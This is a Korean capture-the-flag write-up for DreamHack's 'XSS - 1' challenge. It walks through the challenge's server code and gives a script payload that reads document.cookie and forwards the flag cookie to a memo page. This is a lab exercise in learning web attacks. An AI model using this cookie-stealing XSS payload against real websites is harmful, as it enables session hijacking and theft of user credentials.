


## [DreamHack] XSS - 1

문제 링크: https://dreamhack.io/wargame/challenges/28/ 

### 난이도: Level 1

### 문제 풀이

```python
def check_xss(param, cookie={"name": "name", "value": "value"}):
    url = f"http://127.0.0.1:8000/vuln?param={urllib.parse.quote(param)}"
    return read_url(url, cookie)

@app.route("/flag", methods=["GET", "POST"])
def flag():
    if request.method == "GET":
        return render_template("flag.html")
    elif request.method == "POST":
        param = request.form.get("param")
        if not check_xss(param, {"name": "flag", "value": FLAG.strip()}):
            return '<script>alert("wrong??");history.go(-1);</script>'

        return '<script>alert("good");history.go(-1);</script>'
```

위 flag() 함수를 보면, POST 방식으로 HTTP Request를 보낼 떄, param 값과 쿠키 값 (FLAG 값을 포함)을 check_xss() 함수에 인자로 넘겨줍니다. 

check_xss() 함수에서는 read_url을 호출하는데 FLAG 값을 가진 쿠키 값을 그대로 넘기는 것을 확인할 수 있습니다. 

```python
def read_url(url, cookie={"name": "name", "value": "value"}):
    cookie.update({"domain": "127.0.0.1"})
    try:
        options = webdriver.ChromeOptions()
        for _ in [
            "headless",
            "window-size=1920x1080",
            "disable-gpu",
            "no-sandbox",
            "disable-dev-shm-usage",
        ]:
            options.add_argument(_)
        driver = webdriver.Chrome("/chromedriver", options=options)
        driver.implicitly_wait(3)
        driver.set_page_load_timeout(3)
        driver.get("http://127.0.0.1:8000/")
        driver.add_cookie(cookie)
        driver.get(url)
    except Exception as e:
        driver.quit()
        # return str(e)
        return False
    driver.quit()
    return True
```

read_url() 함수를 보면, driver.add_cookie(cookie)를 통해 쿠키 값을 추가해주는 것을 볼 수 있습니다. 

그럼, 이제 XSS 공격을 사용하여 cookie 값을 얻으면 FLAG를 획득할 수 있습니다. 



memo 페이지는 파라미터 값을 메모해주는 페이지입니다. 

그럼, FLAG 값을 메모 페이지에 찍어주면 될 것 같습니다. 

```HTML
<script>location.href="http://127.0.0.1:8000/memo?memo="+document.cookie;</script>
```

param 값으로 위 스크립트를 넣어주면, 아래와 같이 FLAG를 획득할 수 있습니다. 

 
